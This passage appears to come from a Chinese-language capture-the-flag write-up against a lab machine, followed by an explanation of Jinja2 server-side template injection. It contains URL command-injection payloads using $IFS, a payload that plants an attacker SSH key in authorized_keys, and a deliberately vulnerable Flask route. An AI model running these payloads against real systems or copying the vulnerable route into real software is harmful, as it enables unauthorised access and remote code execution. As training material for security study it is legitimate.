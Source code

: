 ```c
http://10.10.14.22:7777/$(bash$IFS'/var/www/html/test')
```

![Screenshot_20240417_183003](./图/Screenshot_20240417_183003.png)



###### _ssh

```c
//进攻方     
"tcpdump -ni tun0 icmp"
```

```c
//被害方
http://10.10.14.6/$(ping$IFS-c$IFS'1'$IFS'10.10.14.6')
```

```c
我们需要创建ssh目录,并且写入被害机

http://10.10.14.6/$(mkdir$IFS'/home/web/.ssh')

http://10.10.14.6/$(echo$IFS'ssh-ed25519'$IFS'AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d'>'/home/web/.ssh/authorized_keys')
```

```c
//进攻方
"ssh -i ~/keys/ed25519_gen web@10.129.2.21"
```





##### (2).SSTI注入原理

```C
Python Web 服务器可能容易受到服务器端模板注入的攻击。
    如果用户输入未经净化，则可以将其包含在模板代码中而不是作为文本处理
    这可以允许远程代码执行。 
    OWASP 有一个页面详细介绍了背景。
    一个简单的例子是基于 Python Jinja2 的服务器，其路由如下：
    
```

```bash
@app.route("/hello")
def hello():
    user = request.values.get("user")
    return Jinja2.from_string(f'Hello {user}!').render()
```

```c
/*********************************************************************************
这段代码是一个简单的Flask应用程序的一部分，它创建了一个路由 `/hello`
    当访问该路由时，会执行 `hello()` 函数。

    
在 `hello()` 函数中：

    - `request.values.get("user")` 从请求中获取名为 "user" 的参数的值。
        这意味着如果你访问 `/hello?user=John`，则 `user` 将会被赋值为 "John"。
        如果没有提供 "user" 参数，那么 `user` 的值将会是 `None`。

    - `Jinja2.from_string(f'Hello {user}!').render()` 使用Jinja2模板引擎
        将字符串 `f'Hello {user}!'` 渲染为一个包含用户提供的名字的问候语的HTML页面。
        如果没有提供 "user" 参数，那么问候语将不包含用户名，而是仅仅是 "Hello !"。

总的来说，这个路由函数的作用是返回一个包含用户提供的名字的问候语的HTML页面。
```
